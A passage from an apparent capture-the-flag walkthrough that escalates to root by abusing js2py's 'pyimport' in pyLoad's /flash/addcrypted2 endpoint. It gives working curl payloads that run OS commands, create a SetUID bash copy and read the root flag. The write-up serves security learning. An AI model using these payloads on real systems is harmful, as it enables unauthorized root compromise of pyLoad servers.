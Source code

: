 `js2py` has a feature that’s on by default known as `pyimport`. It allows importing Python libraries to run alongside the JavaScript it’s executing. So if it’s not disabled, I can use `pyimport` to get Python code, and run that in an unsafe way. The patch above disables `pyimport` for pyLoad.

#### POC

There’s a POC in the gist above using `curl`:

```
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://<target>/flash/addcrypted2'

```

I’ll clean that up a bit and run it:

```
oxdf@hacky$ curl -d 'jk=pyimport os;os.system("touch /tmp/0xdf");f=function f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' http://127.0.0.1:9666/flash/addcrypted2

```

The `touch` command worked, as that file now exists, owned by root:

```
sau@pc:~$ ls -l /tmp/0xdf
-rw-r--r-- 1 root root 0 May 24 17:46 /tmp/0xdf

```

#### Shell

I’ll change the payload from creating a file to making a SetUID / SetGID copy of `bash`:

```
oxdf@hacky$ curl -d 'jk=pyimport os;os.system("cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf");f=function f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' http://127.0.0.1:9666/flash/addcrypted2
Could not decrypt key

```

Back in my shell, I’ll run it (with `-p` to not drop privs):

```
sau@pc:~$ /tmp/0xdf -p
0xdf-5.0# id
uid=1001(sau) gid=1001(sau) euid=0(root) egid=0(root) groups=0(root),1001(sau)

```

With that I can read `root.txt`:

```
0xdf-5.0# cat root.txt
d88264b0************************

```

